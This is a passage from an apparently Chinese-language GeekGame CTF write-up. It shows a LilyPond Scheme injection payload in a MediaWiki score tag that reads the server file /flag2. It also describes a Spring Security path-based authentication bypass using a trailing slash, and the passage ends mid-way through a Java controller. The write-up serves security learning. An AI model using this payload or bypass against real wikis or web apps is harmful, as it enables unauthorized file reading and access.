 好，那就一定是要读取 /flag2 文件。读了一下资料，感觉 RCE 并且将结果输出出来还是稍微有点难，于是思路转变到用 Scheme (Guile) 来读文件并且输出。

搜索一下可以知道，能用 `open-input-file` 开文件，然后读文件可以用 `read-line`，但是 [`read-line` 需要加载 `ice-9 rdelim` 模块](https://stackoverflow.com/questions/44144124/read-a-line-from-a-file)。于是代码大概就是：

```scheme
(use-modules (ice-9 rdelim))
(object->string(read-line (open-input-file "/flag2")))
```

我也看了 lilypond 的文档，发现[可以用 `(begin` 来弄多行的代码](https://lilypond.org/doc/v2.21/Documentation/extending-big-page#lilypond-scheme-syntax)：

```scheme
(begin
(use-modules (ice-9 rdelim))
(object->string(read-line (open-input-file "/flag2")))
)
```

于是 payload 就是：

```mediawiki
<score lang="lilypond">\new Staff <<{c^#(begin
(use-modules (ice-9 rdelim))
(object->string(read-line (open-input-file "/flag2")))
)
}>></score>
```

![Lilypond Read /flag2](assets/lilypond-2.png)

这个 C3 音高的四分音符 ~~太好听了，简直就是天籁。~~

## 企业级理解

这题感觉总体挺迷的，和 GeekGame 其他题目画风区别有点大（就是那种无法理解这玩意儿是要干啥的感觉，我不喜欢这样的题目）。

### 赋能管理后台

从来没写过 Java web 程序，搜了一下，读到了 <https://www.cnblogs.com/nice0e3/p/16798843.html#antmatchers-%E9%85%8D%E7%BD%AE%E8%AE%A4%E8%AF%81%E7%BB%95%E8%BF%87>。

所以看起来后面加个 `/` 就能绕过权限检查。然后在进入的 admin/ 页面里面发个请求，F12 里面 copy as cURL，`query` 后面加个 `/`，type 选 "PKU_GeekGame" 就是 flag1

### 盘活业务增长

我们也可以用同样的方式拿到源代码：

```java
import org.springframework.web.reactive.function.client.WebClient;

@RestController
public class AdminController {

    WebClient webClient = WebClient.builder().baseUrl("http://localhost:8079/").build();

    @RequestMapping("/admin/{index}")
    public String adminIndex(@PathVariable(name="index") String index, String auth, QueryBean queryBean) {
        if (index != null & index.contains("%")) {
            index = URLDecoder.decode(index, "UTF-8");
        }
        if (queryBean.getType() == null) {
```